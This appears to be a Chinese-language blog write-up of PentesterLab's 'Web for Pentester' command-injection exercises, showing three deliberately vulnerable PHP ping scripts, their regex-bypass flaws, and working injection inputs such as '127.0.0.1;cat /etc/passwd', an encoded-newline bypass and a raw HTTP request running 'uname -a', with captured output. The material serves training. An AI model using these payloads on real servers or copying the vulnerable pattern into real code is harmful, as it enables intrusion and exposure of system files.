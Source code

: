 ```yaml
---
title: 常见web漏洞-command execution
categories:
- web
tags:
- web
---
```


[资料下载：pentesterLab download](https://pentesterlab.com/exercises/web_for_pentester/)

---
![常见web漏洞](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/%E5%B8%B8%E8%A7%81web%E6%BC%8F%E6%B4%9E.png)

## 命令执行：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/2.PNG)
#### 漏洞代码：
```
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```
system()函数，执行系统命令，
ping -c 2 ip，由于ip是客户端可控，导致命令执行。

---

#### 漏洞代码二：
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/3.PNG)
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
在执行命令之前，先正则表达式判断。

127.0.0.1;cat /etc/passwd
不满足正则表达式，所以返回无效的ip地址。

```
127.0.0.1
cat /etc/passwd
```
如果注入上面这样的代码，就会判断127.0.0.1是有效的ip，然后执行system函数

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/4.PNG)
将\n换行符url编码。

---

#### 漏洞代码三：
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
如果ip参数为正确的地址，则执行system()，否则就执行Location: example3.php?ip=127.0.0.1

- 效果展示
如果是有效地址，则ping给出的地址，如果是无效地址，就会ping 127.0.0.1。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/5.PNG)

- 漏洞利用
原理：由于在正则表达式判断ip地址时候，如果不符合，没有中止运行，而是302跳转到“Location: example3.php?ip=127.0.0.1”。
所以可以用nc或者telnet，观察到命令的执行结果。
```
telnet 192.168.2.131 80
GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0
```
```
HTTP/1.1 302 Found
Date: Tue, 13 Nov 2018 08:52:44 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15
X-XSS-Protection: 0
Location: example3.php?ip=127.0.0.1
Vary: Accept-Encoding
Content-Length: 1535
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>PentesterLab &raquo; Web for Pentester</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Web For Pentester">
    <meta name="author" content="Louis Nyffenegger (louis@pentesterlab.com)">

    <!-- Le styles -->
    <link href="/css/bootstrap.css" rel="stylesheet">

    <style type="text/css">
      body {
        padding-top: 60px;
        padding-bottom: 40px;
      }
    </style>
    <link href="/css/bootstrap-responsive.css" rel="stylesheet">

  </head>

  <body>

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="https://pentesterlab.com/">PentesterLab.com</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="/">Home</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



<pre>
Linux debian 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
</pre>
      <footer>
        <p>&copy; PentesterLab 2013</p>
      </footer>

    </div> <!-- /container -->


  </body>
</html>

```
## 命令执行的函数
system、exec、passthru、shell_exec、popen、proc_open、pcntl_exec

[参考文档：命令执行函数](http://php.net/manual/zh/ref.exec.php)

## 命令执行漏洞的危害
可以使得攻击者反弹一个shell。
例如[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

[G0rmint（一句话写入log 提权）](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
